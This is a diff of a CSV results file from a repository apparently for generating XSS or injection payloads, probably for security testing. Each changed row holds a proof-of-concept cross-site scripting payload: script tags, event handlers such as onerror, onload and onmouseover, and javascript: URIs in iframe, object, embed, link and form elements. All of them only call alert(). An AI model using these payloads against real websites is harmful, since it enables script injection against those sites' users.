

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/ga_result_llm.csv, drawn as a sheet.

```diff
--- a/result/ga_result_llm.csv
+++ b/result/ga_result_llm.csv
@@ -3,10 +3,10 @@ body_tag,"[0, 1, 2]","""<script>alert('XSS1')</script>"
 body_tag,[14],"""<img src='x' onerror='alert(""XSS2"")'>"
-body_tag,[15],"""<body onload='alert(""XSS3"")'>"
-body_tag,[54],"""<input type='text' value='' onfocus='alert(""XSS4"")' autofocus>"
-body_tag,[55],"""<svg onload='alert(""XSS5"")'>"
-body_tag,[29],"""<iframe src='javascript:alert(""XSS6"");'>"
-body_tag,[56],"""<div style='behavior:url(#default#time2);' onbegin='alert(""XSS7"")'>"
-body_tag,[57],"""<object data='javascript:alert(""XSS8"");'>"
-body_tag,[58],"""<embed src='javascript:alert(""XSS9"");'>"
-body_tag,[59],"""<img dynsrc='javascript:alert(""XSS10"");'>"
-body_tag,[13],"""<layer src='javascript:"
+body_tag,"[46, 6]","""<div onmouseover='alert(""XSS3"")'>Hover over me!</div>"
+body_tag,[47],"""<body onload='alert(""XSS4"")'>"
+body_tag,[48],"""<iframe src='javascript:alert(""XSS5"");'>"
+body_tag,[126],"""<input type='text' value='' onfocus='alert(""XSS6"")'>"
+body_tag,[50],"""<svg onload='alert(""XSS7"")'>"
+body_tag,[127],"""<embed src='javascript:alert(""XSS8"");'>"
+body_tag,[128],"""<object data='javascript:alert(""XSS9"");'>"
+body_tag,"[129, 12]","""<a href='javascript:alert(""XSS10"");'>Click me</a>"
+body_tag,"[25, 130]","""<form action='javascript:alert(""X"
```
Also changed, not shown: result/gan_result_chrome.csv, result/gan_result_vec_chrome.csv, 28 other files.
